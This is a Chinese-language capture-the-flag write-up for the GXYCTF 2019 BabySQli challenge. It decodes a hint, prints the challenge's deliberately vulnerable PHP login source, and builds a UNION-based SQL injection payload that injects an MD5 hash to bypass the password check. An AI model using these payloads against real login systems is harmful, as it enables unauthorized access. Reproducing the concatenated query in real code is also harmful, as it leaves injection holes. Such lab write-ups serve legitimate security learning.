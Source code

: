 ```yaml
---
author: 
  name: Zephyr
title: GXYCTF 2019 BabySQli
date: 2022-7-15 14:11:24
permalink: /pages/2e1547494524d1c9
tags: 
  - buuctf
  - web
  - SQLInject
---
```


# GXYCTF 2019 BabySQli

## 题目分析

首先看一下题目，很普通的一个登录页面：

![GXYCTF_2019_BabySQli1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli1.png)

随便输入点什么后，发现跳转的search.php页面源码中有注释字符

![GXYCTF_2019_BabySQli2](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli2.png)

```
MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5
```

大写的字母和数字很明显是base32，先用base32解码一下

```
c2VsZWN0ICogZnJvbSB1c2VyIHdoZXJlIHVzZXJuYW1lID0gJyRuYW1lJw==
```

还有一层base64，继续解码得到SQL语句

```sql
select * from user where username = '$name'
```

很明显注入点在username上

尝试输入admin、password进行登录，提示wrong pass

![GXYCTF_2019_BabySQli3](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli3.png)

接着尝试输入root、root进行登录，提示wrong user，

![GXYCTF_2019_BabySQli4](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli4.png)

两者对比说明`admin`这个账户是存在的

尝试`admin' or 1=1#`万能密码登录

![GXYCTF_2019_BabySQli5](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli5.png)

被过滤了，换个变种`admin' Or 2>1#`尝试绕过，依然提示wrong pass

![GXYCTF_2019_BabySQli6](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli6.png)

万能密码绕不过，猜测用户名和密码是分开验证的，试了好一会儿没试出来，选择查看源码，buu给了源码地址，具体源码如下：

```php
<!--MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5-->
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
<title>Do you know who am I?</title>
<?php
require "config.php";
require "flag.php";
 
// 去除转义
if (get_magic_quotes_gpc()) {
    function stripslashes_deep($value)
    {
        $value = is_array($value) ?
        array_map('stripslashes_deep', $value) :
        stripslashes($value);
        return $value;
    }
 
    $_POST = array_map('stripslashes_deep', $_POST);
    $_GET = array_map('stripslashes_deep', $_GET);
    $_COOKIE = array_map('stripslashes_deep', $_COOKIE);
    $_REQUEST = array_map('stripslashes_deep', $_REQUEST);
}
 
mysqli_query($con,'SET NAMES UTF8');
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
$sql = "select * from user where username = '".$name."'";
$result = mysqli_query($con, $sql);
 
if(preg_match("/\(|\)|\=|or/", $name)){
    die("do not hack me!");
}
else{
    if (!$result) {
        printf("Error: %s\n", mysqli_error($con));
        exit();
    }
    else{
        $arr = mysqli_fetch_row($result);
        if($arr[1] == "admin"){
            if(md5($password) == $arr[2]){
                echo $flag;
            }
            else{
                die("wrong pass!");
            }
        }
        else{
            die("wrong user!");
        }
    }
}
 
?>
```

对密码验证的逻辑如下：

```php
$arr = mysqli_fetch_row($result);
if($arr[1] == "admin"){
    if(md5($password) == $arr[2]){
        echo $flag;
    }
    else{
        die("wrong pass!");
    }
}
else{
    die("wrong user!");
```

这里的逻辑是对我们提交的password进行md5加密后与数据库返回的密码进行比较，所以可以推出数据库内password在存储前也经过了md5加密

## 思路整理

- username处存在注入点
- 存在admin账户
- 提交的password经过md5加密后会与后端返回的password进行校验
- 依然还是不知道password是多少

似乎陷入了一个死结，不知道密码就无法登录，但这里联合查询语句的一个特性可以帮助解题

## 联合查询语句特性

- union select会把查询结果接在前一个查询结果后面，前面如果查到了东西，那么取得是两个查询的结果，如果前一个查询为空，返回后一个查询结果例子如下：

![GXYCTF_2019_BabySQli7](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli7.png)

这样我们就可以让前一个查询为空，然后拼接我们想要的结果的联合查询语句，来实现我们想要的任意SQL查询的返回的结果

tips:联合查询字段数必须一致

回到本题，那么就应该获取字段数了，过滤了or用Or绕过，确实字段数为3

![GXYCTF_2019_BabySQli8](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli8.png)

因为源码中`$arr[1] == "admin"`这一句确定了username在第二个字段，那么password不是第一个字段就是第三个字段了，这里盲猜第三个

## Payload

所以构造Payload如下：

```url
name=' union select 1,'admin','5f4dcc3b5aa765d61d8327deb882cf99'#&pw=password
```

即可获得flag

![GXYCTF_2019_BabySQli9](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/Blog/GXYCTF_2019_BabySQli9.png)